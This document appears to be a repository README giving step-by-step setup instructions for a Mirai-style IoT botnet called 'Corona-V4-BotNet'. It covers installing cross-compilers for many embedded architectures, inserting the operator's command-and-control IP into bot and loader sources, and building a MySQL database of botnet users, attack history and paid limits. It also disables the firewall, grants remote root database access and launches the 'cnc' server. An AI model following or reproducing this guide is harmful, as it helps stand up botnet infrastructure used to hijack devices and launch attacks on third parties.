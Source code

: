 # Corona-V4-BotNet
// Copy paste this code and put it all on your terminal all at once:

yum update -y
yum install epel-release -y
yum groupinstall "Development Tools" -y
yum install gmp-devel -y
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y

mkdir /etc/xcompile
cd /etc/xcompile 
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2

tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
rm -rf *.tar.bz2
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l

cd /tmp
wget https://dl.google.com/go/go1.9.4.linux-amd64.tar.gz -q
tar -xzf go1.9.4.linux-amd64.tar.gz
mv go /usr/local
export GOROOT=/usr/local/go
export GOPATH=$HOME/Projects/Proj1
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
go version
go env
cd ~/

// Now after that we have to setup the bot.
// Change the other ips with your server IP.

 CHANGE IP(s) IN /bot/includes.h -> For example your server ip is 127.0.0.1 the format should be (127,0,0,1) replace the . with , 
 CHANGE IP(s) IN /scanListen.go
 CHANGE IP(s) IN /dlr/main.c -> For example your server ip is 127.0.0.1 the format should be (127,0,0,1) replace the . with , 
 CHANGE IP(s) IN /loader/src/headers/config.h


// We will setup the database, run these commands on your terminal:

service mysqld start
mysql_secure_installation

// Now Login with your mysql pass by running this command:

mysql -u root -p

// Now we will add the database, copy and paste this on your terminal:

use mysql
GRANT ALL ON *.* to root@'%' IDENTIFIED BY 'YOURMYSQLPASSWORDHERE';
FLUSH PRIVILEGES;

CREATE DATABASE HoHo;
use HoHo;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'USERNAME', 'PASSWORD', 0, 0, 0, 0, -1, 1, 30, '');
exit;

                                 ^^^^^^^^    ^^^^^^^^
//                      PUT YOUR USERNAME AND PASSWORD HERE
// Now your database is complete, we will restart and disable services:

service iptables stop 
service httpd restart  
service mysqld restart

// Alright, we have to compile the bot and screen the cnc server by doing this:

cd ~/
chmod 0777 * -R
sh build.sh

nano /usr/include/bits/typesizes.h
scroll down and edit the 1024 to 999999
THEN SAVE IT 
ulimit -n999999; ulimit -u999999; ulimit -e999999

screen ./cnc
